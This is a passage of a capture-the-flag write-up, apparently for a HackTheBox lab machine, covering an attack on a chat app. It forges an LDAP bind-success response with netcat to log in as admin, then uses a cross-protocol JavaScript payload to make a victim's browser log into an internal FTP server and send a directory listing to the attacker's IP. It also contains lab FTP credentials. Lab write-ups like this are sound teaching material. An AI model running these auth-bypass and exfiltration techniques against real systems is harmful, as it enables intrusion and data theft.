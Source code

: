 Once on the app the user bob wants to talk to an admin. So lets try to auth as admin.

# Chat App
## Priv esc
The way the app checks for users is via a ldap request to `ldap.response.htb`. This can be changed to our local host which can bypass the password check, as we can set it.
### Exploiting LDAP auth
Checking that it can reach the local ldap port.
```bash
nc -lvnp 389
```
This works.
```bash
06`1%uid=admin,ou=users,dc=response,dc=htb�admin
```

Instead of creating a ldap server we can just send back the success response that ldap would send.
```hex
300c02010161070a010004000400
```
This can be done by echo-ing the code into nc
```bash
echo 300c02010161070a010004000400 | xxd -r -p | sudo nc -lkvnp 389
```

This logs in as the admin :)

(Instead of using burpsuite to change the ldap server you could also do a replace in the server)

## Talking to bob
Now as the admin we can talk to bob.

He says there is an ftp server with a firewall issue, and that the admin mentioned something about sending him a js file.

FTP info
```
172.18.0.6:2121

ftp_user:Secret12345
```

See if he will connect to a url that i send.

He does.

## Create a CSPF
Cross site Protocol forgery

This will be used to get bob to connect to the FTP server for us, so we can see whats on it.
```js
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://127.0.0.1:2121', true);
xhr.send('USER ftp_user\r\nPASS Secret12345\r\nPORT 10,10,14,67,35,41\r\nLIST\r\n');
```
